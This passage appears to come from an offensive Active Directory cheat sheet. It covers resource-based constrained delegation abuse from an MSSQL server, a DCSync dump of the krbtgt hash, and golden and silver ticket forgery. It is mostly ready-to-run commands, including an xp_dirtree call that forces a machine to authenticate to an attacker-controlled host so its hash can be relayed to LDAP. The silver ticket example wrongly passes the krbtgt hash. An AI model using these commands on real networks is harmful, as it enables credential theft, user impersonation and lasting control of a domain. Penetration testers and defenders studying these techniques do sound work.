 #### RBCD from MSSQL server

If we have sufficient access to a MSSQL server we can use the `xp_dirtree` in order to leak the Net-NTLM hash of the machine account. Additionally, the **Web Service** client must be running on the machine in order to trick the authentication from SMB to HTTP and avoid the NTLM signature (authentication must be sent to `@80`):

* Create a DNS record in order to be able to leak the NTLM hash externally
* Use the `xp_dirtree` (or `xp_fileexist`) function to the created DNS record on `@80`. This will force the authentication and leak the hash
* Relay the machine hash to the LDAP server to add a controlled account (**with a SPN** for the further S4USelf request) to the `msDS-AllowedToActOnBehalfOfOtherIdentity` of the target machine
* Now we can ask a TGS for a user we want to impersonate for a service on the machine

```bash
#Add the DNS
python3 dnstool.py -u 'domain.local\user1' -p 'password' -r 'attacker.domain.local' -d '<attacker_IP>' --action add <DC_IP>

#On our machine, waiting for the leak
#https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
python rbcd_relay.py 192.168.24.10 domain.local 'target$' <controlledAccountWithASPN>

#ON the MSSQL server
SQLCMD -S <MSSQL_instance> -Q "exec master.dbo.xp_dirtree '\\attacker@80\a'" -U Admin -P Admin

#After the attack, ask for a TGS with full S4U
getST.py -spn cifs/target.domain.local -impersonate admininistrator -dc-ip <DC_IP> domain.local/<controlledAccountWithASPN>password
```

## Domain Persistence

### Golden Ticket

#### Dump krbtgt hash with DCSync

```bash
secretsdump.py -just-dc-user 'krbtgt' -just-dc-ntlm domain.local/administrator:password@<DC>
```

#### Create TGT

```bash
ticketer.py -domain domain.local -domain-sid <domain_SID> -nthash <krbtgt_hash> -user-id <target_RID> -duration <ticket_lifetime_in_day> <target_user>
```

### Silver Ticket

```bash
ticketer.py -domain domain.local -domain-sid <domain_SID> -spn 'cifs/target' -nthash <krbtgt_hash> -user-id <target_RID> -duration <ticket_lifetime_in_day> <target_user>
```
